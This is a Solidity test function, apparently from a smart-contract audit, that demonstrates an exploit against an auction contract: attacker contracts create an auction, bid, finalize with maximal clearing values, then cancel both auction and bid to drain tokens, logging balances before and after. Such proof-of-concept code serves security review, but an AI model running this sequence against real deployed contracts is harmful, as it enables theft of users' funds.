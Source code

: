     function testAttack() public {
        quoteToken = new MockERC20("USD Coin", "USDC", 6);
        baseToken = new MockERC20("DAI stablecoin ", "DAI", 18);
        // Bootstrap auction contract with some funds
        baseToken.mint(address(auction), 1e20);
        quoteToken.mint(address(auction), 1e12);
        // Create attacker
        MockSeller attacker_seller  = new MockSeller(address(auction), quoteToken, baseToken);
        MockBuyer attacker_buyer = new MockBuyer(address(auction), quoteToken, baseToken);
        // Print attacker balances
        uint256 balance_quote;
        uint256 balance_base;
        (balance_quote, balance_base) = attacker_seller.balances();
        console.log("Starting seller balance: ", balance_quote, balance_base);
        (balance_quote, balance_base) = attacker_buyer.balances();
        console.log('Starting buyer balance: ', balance_quote, balance_base);
        // Create auction
        uint256 auction_id = attacker_seller.createAuction(
            2**32,  // totalBaseAmount
            2**120, // reserveQuotePerBase
            2**20, // minimumBidQuote
            uint32(block.timestamp), // startTimestamp
            uint32(block.timestamp + 1),  // endTimestamp
            uint32(block.timestamp + 1), // vestingStartTimestamp
            uint32(block.timestamp + 1), // vestingEndTimestamp
            0 // cliffPercent
        );
        // Bid on auction
        attacker_buyer.setAuctionId(auction_id);
        attacker_buyer.bidOnAuction(
            2**30, // baseAmount
            2**30  // quoteAmount
        );
        // Finalize with clearingQuote = clearingBase = 2**128-1
        // Will transfer unsold base amount + matched quote amount
        uint256[] memory bidIndices = new uint[](1);
        bidIndices[0] = 0;
        vm.warp(block.timestamp + 10);
        attacker_seller.finalize(bidIndices, 2**128-1, 2**128-1);
        // Cancel auction
        // Will transfer back sold base amount
        attacker_seller.cancelAuction();
        // Cancel bid
        // Will transfer back to buyer quoteAmount
        attacker_buyer.cancel();
        // Net profit of quoteAmount tokens of quoteToken
        (balance_quote, balance_base) = attacker_seller.balances();
        console.log("End seller balance: ", balance_quote, balance_base);
        (balance_quote, balance_base) = attacker_buyer.balances();
        console.log('End buyer balance: ', balance_quote, balance_base);
    }
